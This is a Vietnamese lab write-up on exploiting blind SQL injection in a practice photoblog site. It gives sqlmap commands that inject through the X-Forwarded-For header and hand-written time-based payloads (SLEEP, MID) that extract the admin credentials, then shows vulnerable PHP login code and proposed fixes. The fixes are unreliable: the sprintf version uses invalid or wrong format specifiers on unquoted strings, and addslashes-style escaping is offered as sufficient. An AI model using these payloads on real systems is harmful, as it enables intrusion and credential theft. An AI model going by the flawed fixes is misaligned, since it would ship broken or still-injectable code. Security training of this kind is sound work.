








### Người thực hiện: Trần Ngọc Nam
### Thời gian: 06 - 17/04/2022

# Mục lục:
1. [Dùng sqlmap](#1)
2. [Dùng Burpsuite](#2)
3. [Code lỗi SQLi và SQLi_2](#3)
4. [Fix Code lỗi SQLi và SQLi_2](#4)

## Cách thực hiện:<a name='1'></a>
- Ta sẽ thử thực hiện check lỗi thêm ' <code>http://192.168.216.131/cat.php?id=1%27</code> vào sau id hoặc dùng biểu thức tính toán <code>http://192.168.216.131/cat.php?id=2-1</code> như lần kiểm tra trước.
- Nhưng lần này web đã chặn được 2 lỗi đó.


- Nên lần này ta sẽ sử dụng SQLMAP để phát hiện và khai thác sql injection mù.
- Đầu tiên ta dùng <code>sqlmap -u "http://192.168.216.131/" --headers="X-forwarded-for:1*" --dbs
</code> để phát hiện và lấy tất cả các cơ sở dữ liệu từ máy chủ.

    
    
- Ta thấy có 2 database gồm: information_schema và phoyoblog.
- Lần này ta sẽ lấy tất cả các bảng thuộc về cơ sở dữ liệu "photoblog" <code>sqlmap -u "http://192.168.216.131/" --headers="X-forwarded-for:1*" --tables -D photoblog --smart --batch</code>.

- Như vậy, database photoblog có 4 table gồm: categories. pictures, stats, user.
- Bây giờ ta sẽ check dữ liệu table users để lấy được thông tin đăng nhập <code>sqlmap -u "http://192.168.216.131/" --headers="X-forwarded-for:1*" --dump -T users -D photoblog --smart --batch</code>

- Như vậy, ta đã có thông tin gồm username: admin và password:P4ssw0rd.
- Thử đăng nhập và thành công.

- Link: https://ktflash.gitbooks.io/kakashi/content/from_sql_injection_to_shell_ii.html


## Dùng Burpsuite:<a name='2'></a>
- Đầu tiên ta sẽ sử dụng câu lệnh 'AND sleep (5) # để xem thử là database đó là Mysql hay database khác nếu đúng thì nó sẽ trì hoãn thời gian là 5s. Nếu phiên bản <5 thì ta phải sử dụng hàm BENCHMARK ().

- Như vậy, phiên bản của database là 5.3.3-7+squeee15.
- Tiếp theo ta sẽ kiểm tra tên database với <code>’ AND (SELECT sleep(5) from dual where substring(database(),1,1)=’p’)=1#</code> nếu thời gian trễ là 5s thì kết quả đúng. Tiếp tục nối các từ vào <code>’ AND (SELECT sleep(5) from dual where substring(database(),1,2)=’ph’)=1#</code>. Cứ tiếp tục tìm như thế ta sẽ có được tên database <code>photoblog</code>.


- Sau khi có được tên cơ sở dữ liệu, ta tiếp tục tìm bảng chứa thông tin người dùng. Thông thường các bảng đó sẽ là <code>admin</code>, <code>users</code>, <code>login</code>, <code>member</code>. Và sau phép thử, ta tìm được bảng <code>users</code> phù hợp với độ trễ 5s <code>' AND (SELECT sleep(5) from information_schema.tables where table_name LIKE '%user%')=1 #</code>


- Bước tiếp theo ta sẽ dò cột của table <code>users</code>.Ta sẽ có các cột <code>login</code> và <code>password</code> sẽ có độ trễ 5s phù hợp với điều kiện.
  - <code>' AND (SELECT sleep(5) from information_schema.columns where column_name LIKE '%login%' AND table_name='users')=1 #</code>


  -  <code>' AND (SELECT sleep(5) from information_schema.columns where column_name LIKE '%password%' AND table_name='users')=1 #</code>


- Cuối cùng, ta sẽ tìm kiếm username và password dựa vào các thông tin đã có.
  - Tương tự như dò tìm tên database, ta sẽ dùng <code>’ AND IF( (select MID(login,1,1) from users limit 0,1)=’a’ , SLEEP(10), 0)#</code>. Ta sẽ lần lượt tăng <code>MID(login,1,2)</code> và nối thêm chuỗi vào. Cuối cùng ta sẽ có username là <code>admin</code>. <code>’ AND IF( (select MID(login,1,5) from users limit 0,1)=’admin’ , SLEEP(10), 0)#</code>

  - Tương tự, ta sẽ có password <code>8efe310f9ab3efeae8d410a8e0166eb2</code>. <code>’ AND IF( (select MID(password,1,32) from users limit 0,1)=’8efe310f9ab3efeae8d410a8e0166eb2’ , SLEEP(10), 0)#</code>


- Sau khi thực hiện mã hóa, ta có user và password là <code>admin</code> và <code>P4ssw0rd</code>
- Thử đăng nhập và thành công.


## Code lỗi SQLi và SQLi_2:<a name="3"></a>
### Code lỗi sqli
  ```php
  //Lấy dữ liệu nhập vào lỗi sqli
  $username = ($_POST['txtUsername']);
  $password = ($_POST['txtPassword']);

  //Kiểm tra đã nhập đủ tên đăng nhập với mật khẩu chưa
  if (!$username || !$password) {
    echo ("<script LANGUAGE='JavaScript'>window.alert('Vui lòng nhập đầy đủ tên đăng nhập và mật khẩu.');window.location.href='dangnhap.php';</script>");
    exit;
  }

  // mã hóa pasword
  $password = md5($password);

  //Kiểm tra tài khoản có tồn tại không
  $sql = "SELECT username FROM member WHERE username='$username' and password='$password'";
  $userExist = executeResult($sql);
  if (mysqli_num_rows($userExist) == 0) {
    echo ("<script LANGUAGE='JavaScript'>window.alert('Đăng nhập không thành công. Vui lòng kiểm tra lại.');window.location.href='dangnhap.php';</script>");
    exit;
  }
  ```
  
- Ta có thể dễ dàng đăng nhập thông qua lỗi boolean.
   

### Code lỗi sqli_2
- Khi trang web không đảm bảo an toàn chống lại cái Time blind sqli thì rất dễ bị chèn các câu lệnh truy vấn để lấy đi thông tin có trong database có dạng như:
  - <code>' AND (SELECT sleep(5) from information_schema.columns where column_name LIKE '%login%' AND table_name='users')=1 #</code>
  - <code>' AND (SELECT sleep(5) from information_schema.columns where column_name LIKE '%password%' AND table_name='users')=1 #</code>
  - <code>’ AND IF( (select MID(login,1,5) from users limit 0,1)=’admin’ , SLEEP(10), 0)#</code>
  - <code>’ AND IF( (select MID(password,1,32) from users limit 0,1)=’8efe310f9ab3efeae8d410a8e0166eb2’ , SLEEP(10), 0)#</code>
## Fix code lỗi SQLi và SQLi_2:<a name="4"></a>
### SQLi
- Ta có thẻ dùng hàm addslashes(). Hàm nãy sẽ trả về chuỗi với backslashes ở phía trước các kí tự <code>'</code> , <code>"</code>, <code> \ </code>, <code>NULL</code>.
  ```php
  //Lấy dữ liệu nhập
  $username = addslashes($_POST['txtUsername']);
  $password = addslashes($_POST['txtPassword']);

  //Kiểm tra đã nhập đủ tên đăng nhập với mật khẩu chưa
  if (!$username || !$password) {
    echo ("<script LANGUAGE='JavaScript'>window.alert('Vui lòng nhập đầy đủ tên đăng nhập và mật khẩu.');window.location.href='dangnhap.php';</script>");
    exit;
  }

  // mã hóa pasword
  $password = md5($password);

  //Kiểm tra tài khoản có tồn tại không
  $sql = "SELECT username FROM member WHERE username='$username' and password='$password'";
  $userExist = executeResult($sql);
  if (mysqli_num_rows($userExist) == 0) {
    echo ("<script LANGUAGE='JavaScript'>window.alert('Đăng nhập không thành công. Vui lòng kiểm tra lại.');window.location.href='dangnhap.php';</script>");
    exit;
  }
  ```


### SQLi_2
- Ta có thẻ dùng hàm sprintf() để thay thế các dấu % bằng biến được khai báo dưới dạng đối số.
  ```php
  //Lấy dữ liệu nhập vào lỗi sqli
  $username = ($_POST['txtUsername']);
  $password = ($_POST['txtPassword']);

  //Kiểm tra đã nhập đủ tên đăng nhập với mật khẩu chưa
  if (!$username || !$password) {
    echo ("<script LANGUAGE='JavaScript'>window.alert('Vui lòng nhập đầy đủ tên đăng nhập và mật khẩu.');window.location.href='dangnhap.php';</script>");
    exit;
  }

  // mã hóa pasword
  $password = md5($password);

  //Kiểm tra tài khoản có tồn tại không
  $sql = sprintf("SELECT username FROM member WHERE username=%u and password=%p;", $username, $password);
  $userExist = executeResult($sql);
  if (mysqli_num_rows($userExist) == 0) {
    echo ("<script LANGUAGE='JavaScript'>window.alert('Đăng nhập không thành công. Vui lòng kiểm tra lại.');window.location.href='dangnhap.php';</script>");
    exit;
  }

  ```
- Ngoài ra, ta có thể sử dụng hàm mysqli_real_escape_string().
  ```php
  $conn = mysqli_connect(HOST, USERNAME, PASSWORD, DATABASE);

  //Lấy dữ liệu nhập
  $username = mysqli_real_escape_string($conn, $_POST['txtUsername']);
  $password = mysqli_real_escape_string($conn, $_POST['txtPassword']);
  
  $sql = "SELECT username FROM member WHERE username='$username' and password='$password'";
  $userExist = executeResult($sql);
  if (mysqli_num_rows($userExist) == 0) {
    echo ("<script LANGUAGE='JavaScript'>window.alert('Đăng nhập không thành công. Vui lòng kiểm tra lại.');window.location.href='dangnhap.php';</script>");
    exit;
  }
  ```